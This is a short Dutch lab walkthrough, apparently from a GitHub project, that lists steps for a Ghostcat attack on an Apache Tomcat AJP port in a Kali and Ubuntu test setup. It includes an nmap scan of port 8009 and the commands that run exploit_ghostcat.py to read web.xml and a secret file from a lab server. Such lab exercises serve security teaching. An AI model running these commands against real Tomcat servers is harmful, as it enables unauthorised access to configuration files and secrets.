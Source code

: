 # Starten van de aanval

## 1) Stappen om de aanval succesvol uit te voeren

- 4.1) Start de kali vm (indien deze nog niet aan staat):
- 4.2) zorg dat het setup_tomcat.sh bestand op de ubuntu vm staat (bv Downloads -> cd Downloads)
- 4.3) open terminal
- 4.4) sudo systemctl start ssh
- 4.5) sudo systemctl enable ssh
- 4.6) cd Downloads
- 4.7) chmod +x exploit_ghostcat.py
- 4.8) nmap 10.10.10.4 -p 8009
- 4.9) python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/web.xml read
- 4.10) python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/secret.txt read
